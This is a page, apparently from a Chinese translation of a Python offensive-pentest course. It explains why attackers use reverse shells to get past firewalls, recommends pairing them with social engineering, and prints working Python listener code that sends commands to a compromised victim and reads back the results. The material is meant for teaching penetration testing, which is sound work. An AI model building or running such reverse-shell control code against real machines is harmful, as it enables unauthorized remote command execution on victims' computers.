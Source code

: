 假设我们有一个**攻击者**连接到**互联网**的某个地方，右侧是我们的**目标**。所以，从技术上讲，我们有一台完全修补的计算机，并且启用了**内置防火墙**，同时也有企业防火墙在运行。而且，很可能**企业防火墙**已经集成了**入侵防御系统 (IPS)**模块或**杀毒软件**。因此，现在，攻击者要访问这台受保护的计算机，面临两个主要问题。首先，攻击者需要绕过操作系统上的内置防火墙或主机防火墙，默认情况下，防火墙会阻止任何进入该计算机的连接，除非明确允许；同样的规则也适用于企业防火墙。

但是，如果攻击者能以某种方式找到向用户发送恶意文件的方法，或者可能欺骗用户访问我们的恶意网站并下载恶意文件，那么我们可能会危及该计算机，甚至可能是整个网络。因此，为了绕过防火墙根本限制，我们需要让我们的目标，也就是 TCP 客户端，主动发起连接回我们。所以，在这种情况下，我们充当 TCP 服务器，而我们的目标或受害者充当 TCP 客户端，这正是我们需要反向 shell 的原因。

现在，我们需要先理解什么是 shell。如果我们可以在目标机器上启动 `cmd` 进程，并将该进程绑定到网络套接字上，那么这就被称为**反向 Shell**。因此，当我们说将 TCP 反向 Shell 发送到端口 `123` 时，意味着一旦受害者运行该文件，我们预期会在端口 `123` 接收到反向 TCP 连接。所以，在这种情况下，目标端口将是 `123`，我们应该在这个端口上监听。因此，这个端口应该在我们的 Kali 机器上开放。然后，在完成 TCP 三次握手后，我们可以向受害者/目标发送某些命令，让受害者执行，并将结果返回给我们。

请记住，结合社会工程学和客户端攻击（我们在这里讨论的），是最强大的攻击类型，并且很有可能成功。

# 编写一个 TCP 反向 shell

在本节中，我们将在 Kali 机器上调用一个示例 TCP 服务器，并在目标机器上调用一个示例 TCP 客户端。然后，我们将看到如何从 Kali 机器远程执行一些命令。

# 服务器端

让我们从服务器端开始。在 Python 中构建一个 TCP 服务器非常简单：

```
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn https://jo.linkedin.com/in/python2

# Basic TCP Server 

import socket # For Building TCP Connection

def connect():

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM) # start a socket object 's'

    s.bind(("10.0.2.15", 8080)) # define the kali IP and the listening port

    s.listen(1) # define the backlog size, since we are expecting a single connection from a single
                                                            # target we will listen to one connection

    print '[+] Listening for incoming TCP connection on port 8080'

    conn, addr = s.accept() # accept() function will return the connection object ID (conn) and will return the client(target) IP address and source
                                # port in a tuple format (IP,port)

    print '[+] We got a connection from: ', addr

    while True:

        command = raw_input("Shell> ") # Get user input and store it in command variable

        if 'terminate' in command: # If we got terminate command, inform the client and close the connect and break the loop
            conn.send('terminate')
            conn.close()
            break

        else:
            conn.send(command) # Otherwise we will send the command to the target
            print conn.recv(1024) # and print the result that we got back

def main ():
    connect()
main()
```